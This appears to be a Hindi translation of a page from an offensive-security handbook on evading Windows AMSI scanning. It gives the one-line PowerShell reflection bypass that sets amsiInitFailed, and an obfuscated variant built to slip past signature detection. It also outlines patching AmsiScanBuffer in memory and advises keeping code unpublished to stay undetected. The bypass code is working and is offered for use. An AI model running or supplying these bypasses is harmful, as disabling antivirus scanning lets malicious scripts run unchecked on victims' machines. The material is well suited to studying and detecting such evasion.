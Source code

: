 हालांकि, AMSI के पास कई परतों के बावजूद स्क्रिप्ट्स को अनऑब्फस्केट करने की क्षमता है, इसलिए obfuscation इस पर निर्भर करते हुए एक खराब विकल्प हो सकता है कि यह कैसे किया जाता है। इससे बचना इतना सीधा नहीं है। हालांकि, कभी-कभी, आपको बस कुछ वेरिएबल नामों को बदलने की जरूरत होती है और आप अच्छे होंगे, इसलिए यह निर्भर करता है कि कितना कुछ चिह्नित किया गया है।

* **AMSI Bypass**

चूंकि AMSI को powershell (साथ ही cscript.exe, wscript.exe, आदि) प्रक्रिया में एक DLL लोड करके लागू किया जाता है, इसलिए इसे आसानी से छेड़छाड़ करना संभव है यहां तक कि एक अनाधिकृत उपयोगकर्ता के रूप में चल रहा हो। AMSI के कार्यान्वयन में इस दोष के कारण, शोधकर्ताओं ने AMSI स्कैनिंग को बायपास करने के कई तरीके खोजे हैं।

**एक त्रुटि को मजबूर करना**

AMSI प्रारंभीकरण को विफल करने के लिए मजबूर करना (amsiInitFailed) का परिणाम यह होगा कि वर्तमान प्रक्रिया के लिए कोई स्कैन शुरू नहीं किया जाएगा। मूल रूप से यह [Matt Graeber](https://twitter.com/mattifestation) द्वारा प्रकट किया गया था और Microsoft ने इसके व्यापक उपयोग को रोकने के लिए एक हस्ताक्षर विकसित किया है।

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

केवल एक पंक्ति का powershell कोड था जिसने वर्तमान powershell प्रक्रिया के लिए AMSI को अक्षम कर दिया। यह पंक्ति AMSI द्वारा स्वयं ही चिह्नित की गई है, इसलिए इस तकनीक का उपयोग करने के लिए कुछ संशोधन की आवश्यकता है।

यहाँ एक संशोधित AMSI बायपास है जिसे मैंने इस [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db) से लिया है।
```powershell
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
$fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
ध्यान रखें, यह संभवतः इस पोस्ट के बाहर आने के बाद चिह्नित हो जाएगा, इसलिए यदि आपकी योजना अप्रकट रहने की है तो कोई कोड प्रकाशित न करें।

**मेमोरी पैचिंग**

इस तकनीक की खोज मूल रूप से [@RastaMouse](https://twitter.com/\_RastaMouse/) ने की थी और इसमें "AmsiScanBuffer" फंक्शन के लिए पता खोजना शामिल है amsi.dll में (जो उपयोगकर्ता-प्रदत्त इनपुट को स्कैन करने के लिए जिम्मेदार है) और इसे E_INVALIDARG के कोड के लिए निर्देशों के साथ ओवरराइट करना, इस तरह, वास्तविक स्कैन का परिणाम 0 लौटाएगा, जिसे साफ परिणाम के रूप में व्याख्या किया जाता है।

{% hint style="info" %}
कृपया अधिक विस्तृत स्पष्टीकरण के लिए [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) पढ़ें।
{% endhint %}
